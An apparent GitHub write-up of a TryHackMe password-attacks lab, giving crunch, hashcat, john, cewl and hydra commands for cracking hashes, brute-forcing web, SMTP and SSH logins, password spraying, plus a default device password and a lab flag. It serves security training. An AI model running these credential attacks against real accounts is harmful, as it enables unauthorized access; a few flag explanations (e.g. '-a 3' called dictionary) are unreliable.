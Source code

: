## Password Attacking Techniques 

<details>
<summary> Which type of password attack is performed locally? </summary>
<p></p>
Between 'Password Cracking' and 'Password Guessing', <i>'Password Cracking'</i> is the correct answer as this usually involves cracking hashes on the attackers local machine.

</details>

## Password Profiling #1 - Default, Weak, Leaked, Combined , and Username Wordlists

<details>
<summary> What is the Juniper Networks ISG 2000 default password? </summary>
<p></p>

Keeping the default credentials on your device is a huge security risk, and this is exactly what this question is about. By not changing the password you leave your device open to anyone who can do a quick google search and find the user's guide to the device:

<p align="center">
  <img src="https://user-images.githubusercontent.com/66912443/185885338-5fca362b-1de2-4a72-a77f-d1cb88977969.png" >
</p>

This, from the aformentioned official user guide to the 'Juniper Networks ISG 2000' reveals both the username and password to be 'netscreen'
  <p></p>
  
  ``` Source = https://www.juniper.net/documentation/hardware/netscreen-systems/netscreen-systems50/ug_isg_2000.pdf ```

</details>

## Password Profiling #2 - Keyspace Technique and CUPP

<details>
<summary> Run the following crunch command: crunch 2 2 01234abcd -o crunch.txt. How many words did crunch generate? </summary>
<p></p>
Crunch, at least for me was not installed on my Linux device, this was easily fixable by running the following:
  <p></p>
  
  ``` sudo apt install crunch ```
  
  <p></p>
  Once that has finished installing you are good to run the command revealing the following lines:
  <p></p>
  
  <p align="center">
  <img src="https://user-images.githubusercontent.com/66912443/185888501-e0a3c124-60f3-4e58-8687-9f5db95ee26a.png" >
</p>

</details>

<details>
<summary> What is the crunch command to generate a list containing THM@! and output to a filed named tryhackme.txt? </summary>
<p></p>

   This task is to create a LIST containing this password, not just generate the word itself. Using the following logic:
  
  ```
  @ - lower case alpha characters

, - upper case alpha characters

% - numeric characters

^ - special characters including space
  ```
  
"THM" is a given and is known so does not need to have every combination generated with "," as that list would be sooooo long. The only parts that would differ would be "@" and "!". We can ascertain that as "@" and "!" are special characters, they must be represented by the "^" symbol. The final command would be as so:
  
  ``` crunch 5 5 -t THM^^ -o tryhackme.txt ```

</details>

## Offline Attacks - Dictionary and Brute-Force

<details>
<summary> 
Considering the following hash: 8d6e34f987851aa599257d3831a1af040886842f. What is the hash type? </summary>
<p></p>

The tool of choice to identify hashes, 'hashid' was not installed on my Linux system by default. This can be fixed with the following command:
  
  ``` sudo apt install hashid ```
  
  Running the following revealed the answer:
  
  ![image](https://user-images.githubusercontent.com/66912443/185891467-ebcb94f8-a836-442f-9316-c7eeec0e9aca.png)

</details>

<details>
<summary> Perform a dictionary attack against the following hash: (The same one) What is the cracked value? Use rockyou.txt. </summary>
<p></p>
Now that we known the hash is SHA-1, this helps with filling out the fields when we pass it through hashcat. From 'hashcat.net', we can ascertain the hash-mode code for SHA-1 is 100.
  <p></p>
  <p align="center">
  <img src="https://user-images.githubusercontent.com/66912443/185892364-a0547a46-cf42-40f5-b150-8a891a9a15c4.png" >
  </p>

  Now the command can be completed: 
  
  ``` hashcat -a 0 -m 100 8d6e34f987851aa599257d3831a1af040886842f [location of rockyou.txt] ```
  
  "-a" determines the type of attack (0 meaning dictionary)  
  "-m" determines the hash mode used (100 for SHA-1)
  
  <p></p>
  
  Once you have run this command and it has been cracked, (this may take a while) it will show the following:
  <p></p>
  <p align="center">
  <img src="https://user-images.githubusercontent.com/66912443/185894232-5897b833-e42f-470b-be91-fdd5ea721a89.png" >
  </p>

  To get your answer, press the up arrow to get the previous command again and add "--show"
  
  <p></p>
  <p align="center">
  <img src="https://user-images.githubusercontent.com/66912443/185894740-3fe0b40d-b264-4898-b2cd-6d590734cbd7.png" >
  </p>
  
</details>

<details>
<summary> Perform a brute-force attack against the following MD5 hash: e48e13207341b6bffb7fb1622282247b. What is the cracked value? Note the password is a 4 digit number: [0-9][0-9][0-9][0-9] </summary>
<p></p>

Referring back to the table in the previous question, we know that MD5 is represented by the code "0".

``` hashcat -a 3 -m 0 e48e13207341b6bffb7fb1622282247b ?d?d?d?d ```

"-a" determines the type of attack (3 meaning dictionary)  
"-m" determines the hash mode used (100 for SHA-1)  
"?d?d?d?d" indicates for the brute force to look for a 4 digit character (1 ?d = 1 digit)
  <p></p>
  The only step left is to run the command as we have everything we need already:
  <p></p>
<p align="center">
  <img src="https://user-images.githubusercontent.com/66912443/185899243-2b182574-6892-49f4-b22d-996a8667246b.png" >
  </p>

</details>

## Offline Attacks - Rule-Based

<details>
<summary> What would (be) the syntax you would use to create a rule to produce the following: "S[Word]NN  where N is Number and S is a symbol of !@? </summary>
<p></p>
  
"Az" Specifies there is a word here 
  
  
  "[0-9]" Specifies there is a number. There must be quotations on either side of the closed square brackets and the brackets can be put next to each other for more numbers  
  
  
  "^" Means append a special character to the beginning of each word  
  
  
  "$" Means append a special character to the end of each word
  
  With this all in mind, it can be put together to create the following:
  
  
``` Az"[0-9][0-9]" ^[!@] ``` 

</details>

## Online password attacks

<details>
<summary> Can you guess the FTP credentials without brute-forcing? What is the flag? </summary>
<p></p>

Sometimes FTP servers have an 'anonymous' account left open. This allows access to a server to get information that is publically available, however in this case it can be used for more harm than good. As seen below using the username 'anonymous' with no password gave me access to this ftp server.

  ![image](https://user-images.githubusercontent.com/66912443/185905336-bb588089-1d99-4759-b50f-d12ae52c5447.png)
  
  Listing all reveals a directory known as 'files' which within there lies the flag...
  
  ![image](https://user-images.githubusercontent.com/66912443/185905628-bc810e0d-8669-40ba-a88a-b23a376e3192.png)
  
  Using 'get', the flag is transferred to my machine and the flag is revealed: 
  
  ``` THM{d0abe799f25738ad739c20301aed357b} ```
  
</details>

<details>
<summary> What is the password? (for pittman@clinic.thmredteam.com) Note that the password format is as follows: [symbol][dictionary word][0-9][0-9]. </summary>
<p></p>

 To make this easier, first its best to create a new rule in john following the password formula given:
 
 ```
 sudo nano /etc/john/john.conf <--- open wherever your john is installed
 [List.Rules:THM-Example] <--- Name the rule
 Az"[0-9][0-9]" ^[!@#$] <--- Rules
 ```
 
![image](https://user-images.githubusercontent.com/66912443/185931105-66f2011c-49f9-4406-a6fb-c05226e8ff16.png)
                             
Next is to create a custom wordlist using 'cewl' from the website that the email address comes from.

``` cewl -m 8 -w clinic.lst https://clinic.thmredteam.com ```
                             
"-m" indicates the minimum wordlength to pick up (default is 3)
                             
![image](https://user-images.githubusercontent.com/66912443/185932034-5727e811-608e-43fc-8ada-a6c3f80ca2d4.png)

To create the final wordlist, the list created using cewl needs to be put through the rules created using john at the beginning.
                             
``` john --wordlist=clinic.lst --rules=THM-Example --stdout > john.txt ```
  
This will create a file full of all the password combinations.
  
![image](https://user-images.githubusercontent.com/66912443/185933639-d8c9ffc2-87e8-4605-89bc-4fa979e346b6.png)

Now, finally to use it against the SMTP server. The below command, using hydra, will run a dictionary attack against the account similarly to other examples you've seen.
  
``` hydra -l pittman@clinic.thmredteam.com -P [path to final wordlist] smtp://[ip] -v ```

After that has finished executing, as always this is computer dependent on how fast this will be, youll have your password.
  
![image](https://user-images.githubusercontent.com/66912443/185935399-ec36c083-6a8b-440a-ab62-dfcb4dc73add.png)


</details>

<details>
<summary> Perform a brute-forcing attack against the phillips account for the login page at [ip]/login-get using hydra? What is the flag? </summary>
<p></p>

To conduct the attack, we need to once again use Hydra, this time for a 'GET' attack, hence '/login-get'. 

``` hydra -l phillips -P [path] [IP] http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php" -f ```

"-l" Specifies the username that is going to be tried with this attack  


"-P" this is the path to the wordlist used to bruteforce the password  


"http-get-form" specifies the type of attack being performed, this time a GET attack  


"^USER^" Tells the program to brute force with the username  


"^PASS^" Tells the program to brute force the password with the given file.  


"-f" Tells the program to stop once its been successful  

Putting that command through and running it will lead you to find the password, as seen below: (speed dependent on time taken as usual)
  
![image](https://user-images.githubusercontent.com/66912443/185955618-9448571b-65d0-4656-a58d-192b9886a7f5.png)

At this point you can log in as phillips and get the flag!
  


</details>

<details>
<summary> Perform a rule-based password attack to gain access to the burgess account. Find the flag at the following website: [ip]/login-post/. What is the flag? </summary>
<p></p>
Similarly to the previous attack, we will be using Hydra. This time, we will be utilising a 'POST' attack instead.
  <p></p>
The hint to this question refers to the need for the 'single extra' rule in john when creating a wordlist, so the first task will be to create a new wordlist from the original 'clinic.lst' for use in the exercise. There is no need to create this rule as it is included in the 'john.conf' file.
  <p></p>
  
``` john --wordlist=clinic.lst --rules=Single-Extra --stdout > burgess.txt ```

So, now we have our wordlist it is time to conduct the attack against the '/login-post' address. The syntax for this hydra command is quite similar to the previous tasks, in fact I just copied and pasted it and changed some words around.
  <p></p>
  
  ``` hydra -l burgess -P [path] [IP] http-post-form "/login-post/index.php:username=^USER^&password=^PASS^:S=logout.php" -f ```
  
As usual, putting that command through and running it will lead you to find the password as seen below:

![image](https://user-images.githubusercontent.com/66912443/186148492-6c92dc85-1b69-4730-9543-e09e0c53c2f4.png)

 Just like before, now you can login and retrieve the flag!
  
</details>

## Password spray attack 
  
<details>
<summary> Perform a password spraying attack to get access to the SSH://[ip] server to read /etc/flag. What is the flag? </summary>
<p></p>

As this exercise relies on password spraying to accounts, first off is to create a small text file full of the usernames to use. The example below is based off of the doctors on the clinic.thmredteam.com website used in these exercises.
  
![image](https://user-images.githubusercontent.com/66912443/186150103-b54fb95a-3e4a-447c-817c-1dd9de2d681e.png)

This time, the hint exposes the password consists of "season+year+special character" so the first step would to be compile a dictionary of words that satisfy this criteria.
  
To begin, I have made a simple list of all the seasons to which to apply the rules upon for the final list. Both 'Fall' and 'Autumn' have been included as we do not know whether the user is American or not.
  
![image](https://user-images.githubusercontent.com/66912443/186151608-2f80ed7e-f197-4cea-8742-aefa5777a564.png)

Next is to create the rule at the end of john.conf.
  
![image](https://user-images.githubusercontent.com/66912443/186154033-2bdb3d84-d526-47db-9413-d3a57e8bacba.png)
 
Once all the setup is complete, the final wordlist can be created using john
  
``` john --wordlist=seasons.txt --rules=THM-SSH --stdout > final.txt ```
  
As seen below, the generated text file statisfies all requirements.
  
![image](https://user-images.githubusercontent.com/66912443/186154182-55d373bc-9bb5-481f-adb3-bc6a3fb1bc51.png)

Now for the main attack! We are once again using hydra. As always the speed of completion really does depend on the specs of your computer. This is especially important for this exercise as depending on how your wordlist is made it could end up HUGE!
  
<i> As a side note, it is important to capitalise both the "-L" and the "-P" as if it is not categorised it will take the 'username.txt' to be the password rather than the contents within it. </i>

``` hydra -L usernames.txt -P final.txt ssh://[ip] ```
  
This took me a while to complete, but once it does the password will be revealed, and im very glad I included Fall otherwise i would never have got that!

![image](https://user-images.githubusercontent.com/66912443/186159227-11e46740-c2a3-459f-8bc2-3eb0a43704f5.png)

At this stage you can successfully log in using SSH and get the flag!

![image](https://user-images.githubusercontent.com/66912443/186159588-b7c926ee-ae83-44cc-bb5b-9ab6862af33f.png)


</details>

